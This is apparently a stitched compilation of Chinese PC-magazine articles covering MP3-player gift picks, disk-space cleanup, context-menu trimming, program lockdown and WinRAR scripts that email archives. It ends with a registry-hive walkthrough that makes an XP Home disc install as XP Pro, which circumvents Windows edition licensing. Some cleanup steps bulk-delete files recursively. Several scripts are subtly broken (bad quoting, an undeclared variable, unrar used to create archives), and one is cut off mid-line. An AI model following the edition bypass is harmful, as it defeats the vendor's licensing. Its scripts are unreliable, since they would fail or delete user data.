游戏，YP-T8上的另一个不同之处。T8提供了从未有过的崭新感受。在跨栏游戏中甩动着胳膊奔跑的运动员，还有能使掌中T8变成飞箭的射箭游戏。放下手机，别再用拇指发送短信了，YP-T8的Tilt Key按钮让你的拇指有了新的活动场所，快试试吧。

## 圣诞礼物推荐——独享天籁 de 三星YP-U1随身听

### 在理性中选择感性

如果你是一个Boy，想送Girl一个礼物，那就仔细看看YP-U1吧。用你的理性审视YP-U1，把它送给感性的MM。

### 挂绳般的精致小巧

YP-U1的个头十分小巧，像一支润唇膏般，乳白色抛光的表面光滑而又富于美感。机身的设计非常有趣，除了耳机插孔，你再也找不到第二个连接线缆的地方。它的背后是一个隐藏式USB接口，用来下载电脑上的MP3音乐。机身上以圆形Menu按钮为中心的控制区简洁美观，最重要的两个按钮——播放/暂停和锁定分列在机身上端两侧，这样非常易于操作，MM大可不必翻弄半天才找到控制按钮。挂绳的位置和耳机插孔被设计在最顶端，两股线缆都是朝同一方向，既美观大方，又很实用。有趣的是，mic也被设计在此。如果临时要录音，大可不必把YP-U1拿下来摆好位置，挂在脖子上一样可以。

## 圣诞礼物推荐——豪华圣诞 de 明基Z2手机MP3随身听

### 不一样的潘多拉

有“潘多拉魔盒”之称的明基Z2是一台时尚的、带有130万像素CMOS摄像头的手机，也是一台可支持最高1GB mini SD卡的MP3。全功能的设计，让它改变了“潘多拉”的意义。

### 超越时空的布局与设计

别具匠心的拨号键盘设计在128×128像素屏幕的右侧，全向摇杆导航键位于屏幕的下方，让MP3、手机拨号等操作能在指掌之间自如操作。更让人感觉不到它的电话功能的存在，完全就是一台典型的MP3播放器造型了。

### 百变造型我来拍

要是你只是为它的电话功能而惊讶的话，那千万别看它的正面。跟随着内置闪光灯的光芒，可更换的四色幻彩外壳与130万像素摄像头的拍摄能力一定会让你的心在这个圣诞里面随着音乐狂跳不止。明基Z2所配置的130万像素的CMOS摄像头就位于机身的后方，连同内置的闪光灯使用，可以得到满意的拍摄效果。同时，Z2还集成了明基经典的MP3播放器Joybee 180可换彩壳概念，目前你已经可以找到四款色彩斑斓，造型各异的可更换外壳。

## 圣诞礼物推荐——分享快乐 de 纽曼M570影音王随身听

### 独特外形

纽曼M570影音王的造型之独特，有别于其他同类产品。其造型颇像时下流行的一款手机。当然，它的个头要小得多。它的边角处理非常圆润，做工精细，主控按钮在机身上方，按钮的大小适中，使用起来很是方便。无论是送他还是送她，M570都有足够的理由让你选中，这绝不是只因为其外形的出众，其内在的魅力是无可抵挡的。

### 掌中影院

M570注重的不单单是音，更重视影。1.5英寸26万色TFT真彩液晶屏色彩艳丽，而且不怕强光照射，在户外依旧能清晰地看到屏幕显示内容。它支持AMV视频播放，画质清晰流畅。别担心这种格式的影片来源，M570带有专用的转换程序，可以把不同的片源转换成自身适合播放的格式。而且，它拥有独特的双喇叭设计，可实现外放。躺在被窝里，你总不希望那些烦人的线缆，给他（她）带来烦恼吧。

### 分享的快乐

约他（她）一起出来吧，12月26号一起走走。你不用为送了他（她）随身听，而让自己如同随行人员一样无助、茫然。M570拥有两个耳机插孔，你可以和他（她）同时戴上耳机，一起享受音乐的快乐。两条纤细的线缆，无形中又拉近了你和他（她）的距离。

## 捍卫系统和平 打败吃掉硬盘空间的怪物

随着硬盘价格的一路走低，很多朋友都配置了80GB以上的硬盘，不过由于某些原因，即便是如此海量的存储空间也经不起那些“大胃口”文件的蚕食。频繁弹出的“剩余空间不足”提示，软件加载速度越来越慢，莫名其妙的空间丢失，不知何用的巨型文件……现在就对硬盘里的“怪物”进行一番审判，该判死刑就判死刑！

## 打怪攻略之1：“怪物”地图

Windows自带的软件（如IE等）大都在系统盘，其中有些软件使用久了就会占用大量硬盘空间；而一些共享软件（如Foxmail）看起来很小，大家习惯性地将其安装在默认的系统盘中，孰不知这些软件也会在不知不觉中“侵吞”了你的硬盘（见附表）。

- WinDirStat小档案
软件版本：1.1.1
软件大小：639KB
软件性质：免费软件
适用平台：Windows 2000/XP/2003
下载地址：http://www.snapfiles.com/get/windirstats.html

## 打怪攻略之2：找出其他“怪物”的藏身之处

上面的表格中我们仅仅是笔者凭经验给出的常见“怪物”出没之处，肯定有漏网之鱼，那么如何能够快速找到其他“大胃怪物”呢？笔者推荐一款名为WinDirStat的工具，它能分析文件使用情况，发现占用空间很大的文件夹。



使用率从上到下重新排列了磁盘盘符。展开某个分区，这里我们能看到该分区中文件夹占用空间从大到小的依次排列。展开其下的“<Files>”可以看到该分区下文件占用空间大小的依次排列。右键单击其中一个文件，选择“Command Prompt here”可以打开命令行提示窗口，并进入选中文件所在目录，选择“Copy Path”则可以复制该文件所在路径。

> 当某些文件比较小时，它对应的拼图也会比较小，可以把鼠标定位到拼图附近区域并单击右键，选择“Zoom in”进行放大处理。

## 实例1：找到其他“大胃怪物”

安装完WinDirStat后，选择“File→Open”菜单，在打开的“WinDirStat-Select Drives”窗口中，由于笔者想让WinDirStat检查整个硬盘的使用情况，所以勾选“All Local Drives”，单击“OK”按钮（见图）。稍等片刻，WinDirStat此时正在分析硬盘中文件空间使用情况。分析完成后可通过以下方式快速找到占用空间最大的目录和文件：

- ① “Name”区域按照每个磁盘分区空间

## 实例2：吐出你的硬盘空间

WinDirStat最有特色的功能是它可以配合命令行来实现对分析出来的文件夹、文件进行相关操作。比如要实现“对分析出的某文件夹用WinRAR进行压缩，并将原文件夹删除”这个功能（需要你的系统中已经安装了WinRAR软件），可以进行如下操作：

- 第一步：在WinDirStat中选择“Options→Configure”菜单，打开WinDirStat设置窗口，切换到“Cleanups”标签，勾选“Enabled”一项。
第二步：在“Title”栏中为该操作设置一个名字，如“Compress with WinRAR”（用WinRAR压缩），在“Command Line”栏中输入“cmd /c &“C:\Program files\WinRAR\unrar.exe” a -df -ag+YYYYMMDDHHMM *.*”。
第三步：在“Works for”一栏勾选“Directories”，去除“Ask for Confirmation”（要求确认）和“Show Console Window”（显示控制台窗口）的勾选，然后确认。
第四步：此时浏览某个目录时觉得它占用空间太大了，想压缩一下，就能右键单击该目录，选择“Compress with WinRAR”菜单即可。

> 其实配合更多命令还可以做更多有意义的事，比如在“Command Line”栏中输入“echo %n & pause”，表示显示当前目录的目录名，而输入“dir /b > dir.txt”命令，表示将当前文件夹中的文件名做个列表，并保存到dir.txt中。

## 实例3：批量删除无用的文件

根据实例2中提供的思路，我们可以进一步来挖掘WinDirStat的命令行功能调用，比如浏览到某占用空间比较大的文件夹，我们要对当前文件夹中的一些无用文件进行清理，可以将“Cleanups”的“Title”栏设置为“Delete mouse files”（删除无用文件），将“Command Lines”设置为“del /s *.bak *.log”，最后选中要做清理的目录，单击右键选择“Delete mouse files”菜单来完成操作。

注意：此例中演示了删除BAK和LOG后缀（多种后缀以空格分开）的所有文件，你可以通过添加更多的后缀来达到所需效果。

| 名称 | 说明和解决方法 |
|------|----------------|
| Outlook Express | Outlook Express（以下简称OE）邮件占用大量空间，默认保存在位置是\Windows\Application Data\Microsoft\Outlook Express\Mail文件夹，将其拷贝到其他盘符（如D:\mail），在OE中选择“工具→选项”菜单，切换到“维护”标签，点击“存储文件夹”按钮，在出现的“存储位置”窗口中，单击“更改”，选择新的邮件保存目录（D:\mail）。 |
| Foxmail | \Foxmail\mail目录下以用户名命名的文件夹中保存的邮件占用大量空间，将\Foxmail直接拷贝到其他盘符即可。 |
| Windows XP 系统还原 | 占用大量存储空间，存放在已经开启系统还原对应盘符的\System Volume Information文件夹。禁用系统还原（为了防止其他用户打开此功能）：打开“注册表编辑器”，找到[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRestore]分支，在右侧窗格双击“DisableRestore”值，点选“十进制”并将其值设置为“1”。 |
| 虚拟内存 | 保存在系统盘根目录下的pagefile.sys中，可以按“Win + Break”打开“系统属性”，在其中设置虚拟内存的大小（建议不要关闭，无论你的内存有多大）。 |
| 休眠 | 保存在系统盘根目录下的hiberfil.sys，在“电源管理”里面关闭系统休眠功能即可。 |
| 系统安装备份文件 | 安装Windows补丁或Service Pack带来的，保存在\Windows目录下，文件名以“$”开头，以“$”结尾的所有文件，通通删除即可（删除后将不能卸载这些已经安装的补丁和Service Pack）。 |
| 临时文件 | 保存在\Documents and Settings\user\Local Settings\Temp和\Windows\Temp目录，删除目录下所有文件即可，并在“系统属性”的“环境变量”中设置“TEMP”和“TMP”两个环境变量的路径到其他盘符。 |
| IE缓存 | 保存在\Documents and Settings\user\Local Settings\Temporary Internet Files目录，删除该目录下所有文件，并在IE中指定将IE缓存保存目录到其他盘符。 |
| dllcache | 这是Windows的安装文件备份，保存在\Windows\system32\dllcache目录，可以删除，但可能会对日后安装新软件或使用某些系统功能产生麻烦（如安装驱动时提示找不到某DLL文件）。建议修改其存储路径：运行“gpedit.msc”打开组策略编辑器，定位到“计算机配置→管理模板→系统→Windows文件保护”，启用“指定Windows文件保护缓存位置”并设置新的保存目录。 |
| 字体文件 | 保存在\Windows\Fonts目录，可以将该文件夹下所有文件移动到其他盘符，再用右键将其拖拽到\Windows\Fonts目录，选择创建快捷方式即可。 |
| WinRAR | 解压缩临时目录默认为C:\Documents and Settings\User\Local Settings\Temp，我们可以在WinRAR中选择菜单“选项→设置”，切换到“路径”标签，在“临时文件解压的文件夹”处将临时目录设置到其他分区。 |

## 打怪攻略之3：揪出隐藏的“怪物”

### 1.变态的软件、系统日志

日志文件多是后缀LOG的文本文件，但你千万别以为它们占用的空间可以忽略不计，实际上我们常常碰到某些系统功能、软件日志达到GB级别的情况，有一次笔者使用的卡巴斯基5.0个人版的日志文件居然达到了3GB！下面给大家介绍一些平时不太注意的日志存储位置（以C盘为系统安装盘符为例）：

- ①卡巴斯基5.0个人版：C:\Documents and Settings\All Users\Application Data\Kaspersky Anti-Virus Personal\5.0\Reports\
②Symantec Norton AntiVirus：C:\Documents and Settings\All Users\Application Data\Symantec\Symantec AntiVirus Corporate Edition\
③ Windows系统日志：C:\Windows\system32\config\

大多数杀毒软件和防火墙软件在设置中都有日志的设置，大家可以做相应调整，以Symantec AntiVirus 9.0为例，选择“File→Configure Histories”菜单，在“Delete Histories”栏中设置保留最近日志的天数即可；对于系统日志来说，运行eventvwr.exe打开“事件查看器”，选择“操作→属性”菜单，在“日志大小”栏的“最大日志文件大小”处可以设置日志的最大值，当日志文件的大小超过该值后，系统会自动覆盖写入之前的日志记录。

### 2.QQ和MSN Messenger接收的文件

MSN Messenger：默认情况下MSN Messenger接收到的文件存放在“C:\Documents and Settings\User\My Documents\我接收到的文件”目录中，如果你在接收好友发送来的文件时没有选择保存目录，该文件夹可能会日益臃肿。

QQ：QQ接收到的文件默认保存在“QQ安装目录\你的号码\MyRecvFiles”目录中，如果传输中断的话，由于QQ支持文件传送功能支持断点续传，QQ会在硬盘中（默认为\qq\QQFileCache目录）保留传送文件的缓存，大家别忘记了随时清空一下该文件夹。此外也可以在QQ的“系统设置→传输文件设置”标签中勾选“当接收文件（>10M）中断时，提醒我是否保留在Cache目录”。这样可以避免缓存文件夹越来越大。

### 3.Google Desktop Search索引文件

如果你安装了Google Desktop Search，由于它会建立本地文件索引数据库以完成其文件搜索功能，所以时间一长其索引文件（默认存放在C:\Documents and Settings\User\Local Settings\Application Data\Google\Google Desktop Search目录中，这是一个隐藏目录）会越来越大。我们可以通过设置让Google Desktop Search的索引文件存放到硬盘的其他分区（如D:\GDS）：

首先退出Google Desktop Search，接下来将C:\Documents and Settings\User\Local Settings\Application Data\Google\Google Desktop Search文件夹拷贝到D:\GDS目录。运行“Regedit”命令打开注册表编辑器，定位到[HKEY_CURRENT_USER\Software\Google\Google Desktop]，将“data_dir”一项的值修改为“D:\GDS”即可。

### 4.神秘的Office安装文件——MSOCache

有的朋友在电脑中发现一个属性为只读和隐藏的文件夹——MSOCache，大约有340MB以上，它来得很诡秘，很容易被认为是“坏人所为”。实际上它是为了便于用户以后直接从硬盘中升级或修复程序，而不用每次都使用安装光盘，Office 2003在安装时会默认在硬盘中复制一份安装程序，其文件夹名为“MSOCache”，所在分区位置不固定，属性为“只读”和“隐藏”。

如果希望每次安装都不再有这个文件夹，可将Office 2003的安装文件复制到硬盘中，接着去掉“只读”属性，打开“FILES\SETUP\Setup.ini”，将其中“CDCACHE=auto”改为“CDCACHE=0”（不生成MSOCache文件夹）或“CDCACHE=1”（只复制很少几个文件到MSOCache文件夹，大约7.85MB）。或直接使用“setup.exe cdcache=0”命令安装Office 2003。

### 小提示

在安装Office等大型软件的时候，也是这些文件占用空间最多的时候，因为此时安装程序会为软件申请多余的硬盘空间来提供撤消操作的缓存（也就是为了用户点“上一步”按钮做准备）。我们可以通过设置来让软件不具有该功能以防止大量硬盘空间被占用，方法是：运行“gpedit.msc”命令打开组策略编辑器，定位到“计算机配置→管理模板→Windows组件→Windows Installer”，将“禁用回滚”一项设置为“启用”。

### 5.网文快捕，你别抢硬盘

如果安装了“网文快捕”后发现C盘容量无端的大量减少，那么很可能是网文快捕的自动备份功能在作怪！

进入C:\Documents and Settings\User\My Documents\My Books\Backup文件夹看看，是否有很多类似2004-12-17-PowerCatcherSample.book的文件，而且一个文件就有几十兆甚至几百兆的大小？这些就是网文快捕自作聪明做的备份，每次你退出网文快捕时它都会做一次备份，日积月累就会占用你很多宝贵的空间，而且备份的多半都是重复的文件。

你可以直接将Backup文件夹下的备份文件全部删除，而C:\Documents and Settings\User\My Books\My Documents\My Books文件夹下的文件PowerCatcherSample.book才是你网文快捕缺省书籍存储路径，只需要保留这个就可以了。

当然也可以设置取消其自动备份的操作：在网文快捕中选择“工具→综合设置”菜单，切换到“工具”标签，去除“自动备份”栏中“退出CyberArticle时，自动备份书籍”的勾选，这样还会大大加快关闭网文快捕的速度。

## 打怪攻略之4：总结经验

- ①FlashGet安装目录下的default.jcd是FlashGet的数据库文件，该文件可能变得比较大。
②如果使用了某些数据安全类软件，可能在删除某大文件后发现硬盘的剩余空间反而更少了。这是因为这些软件会在硬盘的某个目录中开辟一块区域用来存储被你删除的文件备份，以防止误操作。

## 臃肿时代！我们倡导右键菜单瘦身主义

大家都知道，使用右键菜单操作很方便，但现在许多软件都会在右键菜单中添加自己的操作项目，使右键菜单越来越长，寻找自己需要的功能反而变得更慢了。如何打造一个简洁高效的右键菜单呢？当然是隐藏掉不需要的右键菜单项目，或者将不常用的项目放到一个专用子菜单中。

## 传统瘦身法：清理注册表

其实右键菜单数据都是保存在注册表中的，可以直接在注册表中打开对应的右键菜单主键，删除对应的菜单项目子键即可。在所有文件右键菜单中都出现的项目保存在[HKEY_CLASSES_ROOT\*\shellex\ContextMenuHandlers]主键下；在文件夹右键菜单中出现的项目保存在[HKEY_CLASSES_ROOT\Directory\shell]和[HKEY_CLASSES_ROOT\Directory\shellex\ContextMenuHandlers]主键下，此外在[HKEY_CLASSES_ROOT\Folder]和[HKEY_CLASSES_ROOT\Folder\shellex\ContextMenuHandlers]主键下也有相关注册表项；在所有文件和文件夹右键菜单中都出现的项目保存在[HKEY_CLASSES_ROOT\AllFilesystemObjects\shellex\ContextMenuHandlers]主键下。

## 器械瘦身法：Mmm FREE

手动修改注册表是件非常麻烦的事，而且操作不当可能会导致正常的右键菜单被破坏。为大家推荐一款免费的右键菜单清理工具——Mmm FREE（以下简称Mmm）。

### Mmm FREE小档案

| 项目 | 内容 |
|------|------|
| 软件版本 | 2.0 |
| 软件大小 | 847KB |
| 软件性质 | 免费软件 |
| 适用平台 | Windows XP |
| 下载地址 | http://www.onlinedown.net/soft/39754.htm |

Mmm在安装后会自动运行，不过你看不到它的界面，当在资源管理器中点击鼠标右键时，就会发现不一样的地方了：右键菜单左边多了一个随机变色（每次点击都不同）的色条，非常漂亮（见图），这个色条就是Mmm的标志，只要在右键菜单中看到这个色条就说明这个右键菜单中的项目可以用Mmm进行优化，Mmm可以优化的右键菜单包括桌面、开始菜单、文件和文件夹，而在IE浏览器和其他一些程序的右键菜单中看不到这个色条，则说明Mmm不能对这些右键菜单进行优化。



在右键菜单色条最上方有一个按钮，点击这个按钮，即可打开Mmm对这个右键菜单中的项目进行优化，在界面左边显示的是这个右键菜单中的所有项目，拖曳其中你不需要用到的项目到右边的“Hidden items”下面，以后在这个右键菜单中就看不到这些项目了，从而使菜单更加简洁；拖曳不常用的项目到右边的“Rarely used”下，这些项目将会显示在右键菜单中一个名为“Rarely used”的子菜单中，如果你偶尔需要使用时也可以找到它。最后单击工具栏中的“Apply”按钮即可立即使之生效，现在看看这个本来多达几十项的右键菜单优化后的效果，很简洁吧？

如果想保存当前优化后的右键菜单配置，可在Mmm程序中单击鼠标右键，选择“Save menu as registry file”，可将其保存为一个单独的注册表REG脚本文件，以后只需要双击导入这个文件即可恢复所有的右键菜单优化配置。

### 小提示

直接单击Mmm界面右上角的“×”按钮，只是关闭Mmm界面，它实际仍在运行中，如果你想退出Mmm，需要在界面中单击鼠标右键，选择“Shutdown Mmm”。不过这时右键菜单就会变回原来的样子了。

右键菜单优化管理的工具很多，例如Context Menu Editor等（下载地址http://www.bartdart.com/downloads/contextmenueditorinstall.exe），都是基于前面我们介绍的注册表修改原理，所以通常是直接删除不需要的菜单项目，而不能像Mmm那样方便地隐藏和归类不常用的菜单项目，并能随时恢复，Mmm的缺点是需要占用系统资源，不过还好，它在后台运行时仅占用1MB左右的内存而已，对系统几乎没有影响。

## 电脑，让我放心地离开你

在办公室等较为公共的场所，离开电脑时你放心吗？对于一些与系统密切相关的程序，如果随意让其他人(特别是对系统并不熟悉的菜鸟)使用，非常容易造成死机甚至系统崩溃。又或者浏览一些带有网页病毒的站点或者下载运行可能带毒的未知程序，都可能对你的系统造成致命打击。要放心地离开电脑，我们应该怎么做呢？
可能有的朋友会选择使用组策略编辑器或在注册表中修改相应的键值，但那种方法费时又费力。如果找到了相应的免费软件，自然就能以逸待劳了。

## FOFF Protection小档案

- 软件版本:1.0
- 软件大小:240 KB
- 软件性质:免费软件
- 适用平台:Windows 2000/XP/2003
- 下载地址:http://www.ally.ru/download.phtml?filename=foff.zip

下载并将其解压缩至任意目录后双击其中的foff.exe，在弹出的密码登录对话框中，点下“OK”按钮，用软件的初始密码“caffe”打开主界面。

> 小提示
在注册表的[HKEY_LOCAL_MACHINE\SOFTWARE\DSK\FoFF\Passwords]中，用户可以更改密码。

FOFF Protection界面简洁明了，左侧的“Permitted”(已允许)窗口用于显示允许运行的程序列表和个数，右侧窗口按钮分别用于执行“Add”(添加)、“Delete”(删除)、“Clear”(清空)、“Export”(导出)，其下的“Switch prohibitions on”用于启用或禁止程序限制功能，“*.exe”、“*.com”、“*.bat”为软件限制运行的可执行程序和文件扩展名。了解了软件的各部分功能后，就可按需求来限制程序的运行了。

## 实例1：笔者正要外出办事，此时电脑正用FlashGet下载着一个比较大的文件，在离开期间又不希望其他同事来使用电脑。

第一步：按下软件右侧窗口的“Add”(添加)按钮，找到FlashGet的安装文件夹将其中的flashget.exe加入“Permitted”允许运行窗口。
第二步：由于下载完后要查毒，再按下“Add”将杀毒程序KAV32也加入允许运行的程序，点击“Apply”按钮。按“Exit”退出程序(可以用“Export”按钮把每次的设置以注册表的方式导出保存)，注销或重启计算后设置生效。
第三步：当试图打开其他程序时，会弹出一个警告窗口“本次操作由于这台计算机的限制而被取消。请与您的系统管理员联系”。但可以继续使用FlashGet下载文件。

## 实例2：黑客在远程入侵时经常会在你的机器上偷偷运行BAT批处理文件，如果BAT不能用了……

在软件主界面中将“*.exe”、“*.com”两项的勾选状态清空，然后勾选“Switch prohibitions on”复选框。点下“Apply”按钮后退出程序，注销或重启电脑后，所有扩展名为BAT的文件就都被禁止运行了。需要取消限制时，打开软件将“Switch prohibitions on”前的复选框清空，按下“Apply”按钮注销或重启电脑即可。

(Lucky)

## 批处理与 WinRAR 的战役

- 战场:Windows 2000/XP/2003
- 武器:WinRAR(3.50Beta2 或更新) + 批处理脚本

战术讲解:首先使用 WinRAR 的 A 命令参数将指定文件和文件夹添加到压缩包中，“-ieml.[E-mail地址]”开关用来告诉WinRAR在完成此压缩包的创建或更新后将其放入E-mail的附件中，通过兼容 MAPI 的邮件客户端发送到指定的 E-mail地址(大部分Windows平台下的邮件客户端程序都支持 MAPI 接口，如Outlook Express)。

> 小知识
MAPI:由微软公司开发的邮件客户端框架，称为“信报传递应用程序编程接口”(Messaging Application Programming Interface)。它为消息传递类应用程序提供了完整的架构。MAPI架构可用于 E-mail、行程安排、个人信息管理、电子布告栏以及运行于主窗口、个人电脑或便携设备中的在线服务。

## 第一步：创建发送脚本。在“记事本”中输入下列内容并保存为 AutoSend.cmd 文件，存放在任意文件夹中：

```
@echo off
set list=d:\SendList.txt
set prom=C:"Program Files"\WinRAR\WinRAR.exe"
for /f "tokens=1,2* usebackq" %%i in ("%list%") do start /wait %prom% a -ieml.%%i %%j %%k
```

看不懂这段脚本，没关系，现在就来解释一下此脚本的原理。设置发送列表文件 SendList.txt所在位置的环境变量，本例中为“d:\”。设置WinRAR程序所在位置的环境变量，本例中WinRAR安装在“C:\Program Files\WinRAR”，请按实际安装路径进行修改。使用 for /f 命令执行 WinRAR并通过参数将一个或多个压缩包(一次只能发送一个压缩包，多个压缩包要分开发送。一个压缩文件可包含一个或多个目录下任意多个文件)发送到指定的一个或多个邮箱(一个压缩文件可同时发送到多个邮箱)，-ieml.%%i(%%i即E-mail地址)开关中的英文句号“.”表示压缩文件成功附加到E-mail中后会被删除，如果希望保留压缩文件可省略句点。for 循环语句的使用请关注近期的《DOS 快餐店》栏目中的讲解。

## 第二步：创建发送文件列表。在“记事本”中按以下格式创建一个发送文件列表 SendList.txt，存放在 AutoSend.cmd 脚本中指定的 list 变量指向的位置。

```
E-mail地址1[;地址2][;…] 压缩文件名[.ZIP|.RAR] [目录名1][文件名1] [目录名2][文件名2] […][…]
```

注意：列表文件每一行包括三项内容：E-mail地址列表，压缩文件名和发送文件列表。这三项之间使用空格分隔。

- ①指定多个 E-mail地址列表，即同时将压缩文件发送到多个邮箱，可用英文分号(;)或逗号(,)分隔，其中不得含有空格。例如：zhangsan@123.com;lisi@abc.com;wangwu@xyz.com.cn。
- ②压缩文件名，即要发送的文件被添加到这个压缩文件中，并被附加到邮件(附件)，将被作为邮件主题。压缩文件名可省略扩展名，WinRAR 将添加默认扩展名 RAR，也可添加ZIP或 RAR扩展名。例如:myfiles 或者 myfiles.zip 或者 myfiles.rar。
- ③发送文件列表，即指定被添加到压缩文件中的文件，包括驱动器、路径和文件名。发送文件列表之间必须使用空格分隔。当待发送文件与 AutoSend.cmd 文件在相同目录下时可省略盘符和目录名，否则必须指定全路径。文件名可使用通配符(*、?)指定任意组合的文件集合(如*. *.txt、??win*.* )，指定一个目录名(如d:\mydocs)或者目录下的*. *文件(如d:\mydocs\*.* )都能达到添加一个目录下所有文件的效果。当希望将整个目录及其所有子目录文件添加到压缩包中，可结合使用 -r 开关(如:-r d:\mydocs 或 -r d:\mydocs\*.* )。当发送文件列表中出现 -r 开关时无论前后顺序，任何使用通配符(*、?)指定的文件组合都将包括其所有子目录中符合条件的文件(例如:*.txt r abc.*)。当指定的文件路径或文件名包含空格时，必须使用英文引号(“ ”)将整个目录和文件名围起来(例如:“d:\my file1.txt”、“d:\my documents\myfile1.txt”)。下面给出一个列表范例：

```
zhangsan@123.com;lisi@abc.com myfiles.rar d:\mymp3\*.mp3 -r d:\mydocs\*. * d:\mypic\x.jpg
wangwu@xyz.com.cn myfiles.rar d:\mymp3\*.mp3 “d:\my file1.txt”
malu@mn.com;zhaoqi@pq.com.cn myfiles.rar d:\mymp3\f.mp3 d:\mypic\k.jpg *.doc
```

## 第三步：创建一个定时发送文件任务。单击“控制面板→任务计划→添加新任务”，启动“任务计划向导”，单击“下一步”，单击“浏览”，选择“C:\Documents and Settings\你的用户名\My Documents\AutoSend.cmd”，输入一个任务名称，如“AutoSend”。选择“每月”或“每周”，接着单击“下一步”，设定“起始时间”，如:10:00。设定“起始日期”，如:每月1号或者每月的第一个星期一，或者每2周的星期一。单击“下一步”，输入用户登录密码和确认密码，单击“下一步”，勾选“在单击‘完成’时，打开此任务的高级属性”后单击“完成”。打开“AutoSend”任务的高级属性后可以继续详细调整计划。

现在可以随时根据需要更新发送文件列表，WinRAR会在预设的时间将指定文件发送到指定邮箱。

## VBScript 反击战

- 战场:Windows 98/2000/XP/2003
- 武器:WinRAR + VBScript 脚本

战术讲解:由于 Windows 98 系统的 for 语句不支持 /f 参数读取文本文件内容，所以上文中的代码只能在 Windows 2000/XP 等系统中使用。为了弥补这个缺憾，我们决定动用另一种重要武器:VBScript 脚本。

在“记事本”中输入下列内容并保存为 AutoSend.vbs(下载地址:http://www.newhua.com/cfan/200512/autosend.rar)，存放在任意文件夹。列表文件格式和创建任务计划与上文中批处理脚本相同，不再赘述。

```
Option Explicit '强制显式变量声明
Const ForReading = 1 '定义常量
Dim fsObj, myFile, slFile, lStr, WshShell, lLine,
IsLen, fsPos, ssPos, lAddr, cfName, ssFiles, l '定义变量
slFile = "d:\SendList.txt" '发送文件列表文件，应替换为具体目录和文件名
myProg = "C:\Program Files\WinRAR\winrar.exe a -ieml." 'WinRAR 应用程序路径、命令参数及开关，应替换为具体安装的驱动器和路径
Set fsObj = CreateObject("Scripting.FileSystemObject") '创建文件系统对象
Set myFile = fsObj.OpenTextFile (slFile, ForReading) '打开发送文件列表文件
myFile.ReadAll '读取列表文件所有内容
lLine = myFile.Line '获取行数，发送文件列表最后一行必须回车，否则将忽略最后一行列内容。
myFile.Close '关闭发送文件列表文件，不然后续操作无法进行
Set WshShell = WScript.CreateObject("WScript.Shell") '创建WScript外壳对象
Set myFile = fsObj.OpenTextFile (slFile, ForReading) '打开发送文件列表文件，将文件指针移到文件头
For l = 1 To lLine - 1 '从第一行循环到第lLine - 1行
lStr = myFile.ReadLine '读取列表每一行内容，并赋值给字符串变量
If lStr <> "" Then '判断:如果字符串内容不是空串，执行下列操作，否则什么都不做。目
```

## 附件的自由战争

## XP Home 轻松变 Pro 立即节约 100 美元

近日，德国一家名为《C'T》杂志发表了一篇文章(http://www.heise.de/ct/)，根据介绍，用户仅仅只需要简单修改一下Windows XP Home版光盘文件，即可让Windows XP Home版变成功能更强大的Windows XP Pro版。看到这个消息，你一定与笔者一样不敢相信，因为根据微软公司的官方报价:Windows XP Home完整版的价格为199美元，Windows XP Pro完整版的价格为299美元，其价格相差了足足100美元！微软的产品体系真的这么不堪一击吗？

注意:本文仅针对Windows XP的安装文件进行修改，已经安装好的Windows XP系统不能修改。

### Windows XP Pro版比Home版的功能强在哪

Pro是“专业”(Professional)的缩写，而Home意为“家庭”。按照微软规划，Windows XP Pro价格贵些，适用于对系统管理要求较高的用户，而相对廉价的Windows XP Home则更适合家庭、个人用户。国内联想、方正等不少品牌机产品预装的多是成本低一些的Windows XP Home版本。除系统各个地方的版权信息都打上了“Windows XP Pro”标签外，究竟哪些功能Windows XP Pro具备，而Windows XP Home不具备呢？

- ①远程桌面：该功能允许用户从另一台装有任何版本的Windows操作系统中远程访问该计算机，这对于移动办公、远程解决计算机故障非常有用。
- ②加密文件系统(EFS):Windows XP Pro允许用户对使用NTFS文件系统存储在硬盘上的文件进行加密和保护。
- ③组策略管理:对计算机的系统、软件设置进行统一入口的管理，让用户使用起来更加轻松。
- ④多语言用户界面(MUI):通过安装相关的MUI文件，改变用户界面语言，比如安装英文版本的Windows XP Pro后，要想让其支持中文文件名以及对中文软件提供环境支持，都需要该功能。
- ⑤安装某些软件的权限:在Windows XP Home中，有些软件你是无法安装的，尤其是一些涉及到服务器的管理软件，比如IIS。

小提示
关于两者的区别,大家可以参考微软公司的官方站点的详细介绍:http://www.microsoft.com/china/windowsxp/comparison.asp

### Windows XP Home真能变成Pro吗

无需多余工具，只需一张Windows XP Home安装盘即可。具体操作如下：

- 第一步:将Windows XP Home安装盘中所有文件复制到硬盘。如果硬盘空间吃紧，可以只复制安装CD根目录下所有文件及I386目录。
- 第二步：这个步骤非常关键，运行“Regedt32”命令打开“注册表编辑器”，选中[HKEY_LOCAL_MACHINE]，选择“文件→加载配置单元”菜单（注意一定要选中该分支，否则“文件→选择加载配置单元”菜单为灰色不可选状态），在文件选择窗口中选择刚才复制的Windows XP Home光盘中的I386\Setupreg.hiv文件。
- 第三步：确认后系统会要求我们输入一个名字，随意输入即可，比如“cfan”（此名字与接下来的注册表路径中的“cfan”应保持一致）。接下来定位到[HKEY_LOCAL_MACHINE\cfan\ControlSet001\Services\setupdd]，双击右侧窗口中的“Default”，将“01”改为“00”，将“02”改为“00”。
- 第四步：选中[HKEY_LOCAL_MACHINE\cfan]，选择“文件→导出”菜单，在“保存类型”下拉列表中选择“注册表配置单元文件”，保存名为setupreg.hiv，但保存目录不要选择刚才的I386，而是保存在其他任意目录，因为如果直接保存覆盖，系统会提示“文件正在使用”。
- 第五步：选择“注册表→卸载配置单元”菜单，系统提示“注册表编辑器将卸载当前选定的项和它所有的子项。是否继续操作？”，选择“是”，之后退出“注册表编辑器”。将保存下来的setupreg.hiv复制到I386目录中覆盖同名文件。
- 第六步：现在你可以重新刻录安装盘，也可以直接在硬盘上安装。笔者选择的是直接在硬盘上安装，安装方法是重启后用DOS启动盘启动系统，进入I386目录后，执行winnt命令即可。之后的安装过程在操作上与安装Windows XP Home没什么不同，只不过我们看到的画面非常有趣：
在“Windows XP许可协议”一步显示为Windows XP Home Edition，但在Windows安装程序复制文件到Windows安装文件夹一步时却显示为“Windows XP Professional安装程序”，在文件复制完毕后的启动界面、安装过程中都显示为“Windows XP Professional”。安装完毕后需要输入原Windows XP Home版的CD-KEY激活码。

### 成败参半:体验变种版的Windows XP Pro

至此，Windows XP Home版就安装完毕了，大家在第一次进入系统时一定会觉得，这根本就是Windows XP Pro！不过具体功能能否实现还得试验确认一下。下面笔者对照本文开头介绍的Windows XP Home版与Pro版区别来进行实验。

